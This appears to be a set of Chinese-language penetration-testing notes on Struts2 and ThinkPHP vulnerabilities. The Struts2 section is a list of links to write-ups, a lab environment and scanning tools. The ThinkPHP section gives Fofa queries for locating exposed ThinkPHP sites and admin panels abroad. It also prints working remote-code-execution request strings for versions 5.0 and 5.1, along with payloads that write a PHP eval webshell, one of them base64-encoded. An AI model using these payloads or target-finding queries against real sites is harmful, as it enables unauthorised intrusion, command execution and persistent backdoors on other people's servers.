 https://target.yijinglab.com
# Struts2漏洞
用于创建企业级Java Web应用的开源MVC框架, 由Apache软件基金会负责维护开源. 其本质相当于一个servlet, 作为controller来建立模型于视图的数据交互.

## Struts2历史漏洞
[史上最全Struts2 漏洞复现合集（上](https://zhuanlan.zhihu.com/p/183876381)
[Struts2系列漏洞复现汇总-持续更新中 - 小阿辉谈安全](https://www.cnblogs.com/hgschool/p/17035322.html)

### Struts2原理分析
[Struts2漏洞集合分析与梳理 | tttang](https://tttang.com/archive/1583/)
[Struts2 系列漏洞调试总结 | 素十八](https://su18.org/post/struts2-5/)

### Struts2环境搭建
https://github.com/vulhub/vulhub/tree/master/struts2

### Struts2检测工具
https://github.com/HatBoy/Struts2-Scan
https://github.com/Guaang/s2-tool
https://github.com/shack2/Struts2VulsTools


# Thinkphp
由国人开发的开源框架, 支持Win/Unix/Linux等服务器环境的轻量级PHP开发框架, 很多cmd基于thinkphp开发
- KenCMD内容管理系统
- ThinkCMF内容管理框架
- DuxCMS

## Thinkphp历史漏洞
|版本|漏洞类型|
|--|--|
|ThinkPHP3.2.3|缓存函数设计缺陷可导致Getshell|
|ThinkPHP3.2.3|最新版update注入漏洞|
|ThinkPHP3.2.X|find_select_delete漏洞|
|ThinkPHP3.X|order_by注入漏洞|
|ThinkPHP5.0.X|sql注入漏洞|
|ThinkPHP5.0.10|缓存函数设计缺陷可导致Getshell|
|ThinkPHP5|SQL注入漏洞&&敏感信息泄露|
|ThinkPHP5.X|order_by注入漏洞|
|ThinkPHP5.X|远程代码执行|

### 漏洞发现
![[Pasted image 20230819012036.png]]
- Fofa
```
header="thinkphp" && country!="CN"
header="thinkphp" && country!="CN" && title="后台管理"
header="thinkphp" && country!="CN" && title="后台管理" && after="2021-01-01"
```
- https://github.com/Lucifer1993/TPscan
- https://github.com/theLSA/tp5-getshell
- https://github.com/Lotus6/ThinkphpGUI
- https://github.com/bewhale/thinkphp_gui_tools
- https://github.com/MrHatSec/ThinkPhp5.x_Scan
- 漏洞总结
	- https://y4er.com/post/thinkphp3-vuln/
	- https://y4er.com/post/thinkphp5-rce/
`/index.php?s=index/\think\app/invokefunction`路径下存在执行回调函数, 用户可以自定义调用的函数和参数值, 以此调用system函数, 执行任意命令
```
# 5.0.* 常用POC
# 执行命令
/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami

/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1

# 写入webshell
/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=shell.php&vars[1][]=<?php @eval($_POST[ccc]);?>

/index.php?
s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo -n  YWFhPD9waHAgQGFzc2VydCgkX1BPU1RbJ3hzcyddKTs/PmJiYg== | base64 -d > shell9.php
```
```
# 5.1.* 常用POC
# 执行命令
/index.php?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1

/index.php?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami

/index.php?s=index/\think\Request/input&filter=system&data=id

/index.php?s=/index/\think\request/cache&key=1|phpinfo

# 写入webshell
/index.php?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo "<?php @eval($_POST[ccc]);?>" >shell.php
# 替换过滤字符
(echo "^<?php @eval($_POST[ccc]);?^>" >shell1.php)
```